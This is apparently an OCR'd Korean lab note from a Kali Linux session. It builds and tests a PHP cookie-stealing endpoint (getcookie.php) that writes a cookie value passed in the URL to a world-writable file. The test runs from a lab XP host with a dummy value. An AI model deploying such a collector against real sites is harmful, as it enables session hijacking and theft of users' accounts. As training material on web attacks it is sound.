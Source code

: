 root@kali-04:~# cd /var/www/html
root@kali-04:/var/www/html# vim getcookie.php

```
<?php
		$cookie = $_GET['cookie'];
		$save_file = fopen("cookie.dat","w");
		fwrite($save_file, $cookie);
		fclose($save_file);
?>
```



root@kali-04:/var/www/html# touch cookie.dat
root@kali-04:/var/www/html# ls -l

```
total 28
-rw-r--r-- 1 root root     0 Oct 19 17:41 cookie.dat
-rw-r--r-- 1 root root   127 Oct 19 17:41 getcookie.php
-rw-r--r-- 1 root root    14 Sep 29 16:06 index.html
-rw-r--r-- 1 root root 10701 Sep 14 15:06 index.html.back
-rw-r--r-- 1 root root    14 Sep 29 15:17 index.html.bak
-rw-r--r-- 1 root root   612 Sep 14 15:02 index.nginx-debian.html
```

root@kali-04:/var/www/html# chmod o+w cookie.dat
root@kali-04:/var/www/html# ls -l

```
total 28
-rw-r--rw- 1 root root     0 Oct 19 17:41 cookie.dat
-rw-r--r-- 1 root root   127 Oct 19 17:41 getcookie.php
-rw-r--r-- 1 root root    14 Sep 29 16:06 index.html
-rw-r--r-- 1 root root 10701 Sep 14 15:06 index.html.back
-rw-r--r-- 1 root root    14 Sep 29 15:17 index.html.bak
-rw-r--r-- 1 root root   612 Sep 14 15:02 index.nginx-debian.html
```

root@kali-04:/var/www/html# /etc/init.d/apache2 restart

```
Restarting apache2 (via systemctl): apache2.service.


```

######  XP

인터넷에 172.16.10.30/getcookie.php?cookie=1234 해보기

원래 php 뒤에 쿠키값이 들어갈 텐데 지금은 그냥 테스트

 

###### 칼리

root@kali-04:/var/www/html# cat cookie.dat
1234root@kali-04:/var/www/html# 
